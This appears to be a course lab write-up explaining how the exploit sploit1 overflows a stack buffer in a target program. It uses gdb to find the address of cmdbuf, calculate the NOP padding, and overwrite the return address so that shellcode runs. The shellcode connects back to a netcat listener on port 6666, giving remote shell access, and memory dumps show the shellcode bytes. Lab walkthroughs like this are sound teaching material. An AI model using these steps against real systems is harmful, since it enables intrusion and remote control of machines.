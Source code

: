 Call `make` and `make pipes` before running `./run-target 1 2452` to prepare target 1 for sploit1.  In another terminal also run `nc -l -p 6666` to await our hack to work.

To attach gdb to your program you run `gdb -p pid` where the pid is the number you find after running `ps` in your shell and finding the run-target proccess id.  Now we want to set a breakpoint at the overflow function using `b overflow`. Now we can run `./sploit1` and hit continue in gdb with `c`.  


If you set your breakpoint (`b overflow`) Gdb will stop when it reahes the overflow function where cmdbuf is being copied over into buf.  Lets try and find the address for cmdbuf (that we will feed to the stackpointer so we ret into cmdbuf) using the gdb command `x/x cmdbuf`.  We will find that the address of cmdbuf is 0xbba72000. 
```
(gdb) x/x cmdbuf
0xbba72000:     0x31c03190
```

You can also look at the 100 bytes following cmdbuf to get a "picture" of memory.

```
(gdb) x /100 cmdbuf
0xbba72000:		0x31c03190      0x504050c9      0xb0505040      0x8980cd61
...
0xbba72180:		0x00000000	0x00000000 ...
```	

(Also useful are the gdb commands `list`, `frame`, and `where`. Try these out and see what you learn!)

If you look at sploit1 we actually feed 0xbba72001 into the overflow string because 0x00 will cause our string to terminate early.  Since we are starting at 01 now instead of 00 we will fill in a 0x90 val in our string before our shellcode to make the shellcode now start at 0xbba72001.  


After we copy in our shellcode to the string in sploit1 we need to know how long to make the rest of the string so that we properly overflow the buffer and get the stack pointer $esp to point at our return address before it returns out of the overflow function.  We can use gdb to step from where we left off with `step` until we reach line 13 or right before the overflow function ends and returns.  You can use `disas` and `stepi` to traverse the assembly instructions until you get to the exact ret instruction.


We will fill in some dummy values in our string (like nops value 0x90) and do a test run with gdb.  Now we look at $esp right before the ret instruction using `x/18x $esp - 68` to look at the 18 4-byte addresses before and including the address $esp is looking at.  We get the below output
```
(gdb) x/18x $esp -68
0xbfbf925c:     0x2f2f6851      0x2f686873      0x896e6962      0x535451e3
0xbfbf926c:     0xcd3bb050      0x90909080      0x90909090      0x90909090
0xbfbf927c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfbf928c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfbf929c:     0x90909090      0xbba72001
(gdb) x/x $esp
0xbfbf92a0:     0xbba72001
```
This output is from my already working sploit1, but we can see the amount of padding we will need in our string in order to overflow into the address that $esp will be looking at before the return call.  If you look at the rest of my sploit1, I add the right number of 0x90 and then add the address of cmdbuf we want to jump to.  We know we got it right because we see the 0xbba72001 address when we type `x/x $esp` before we hit return.  If we run run-target and sploit1 again without gdb and check our netcat connection in the other terminal, we can now use ls and other terminal commands on our victim machine.  Our shellcode basically made our victim connect to port 6666 and give us access.
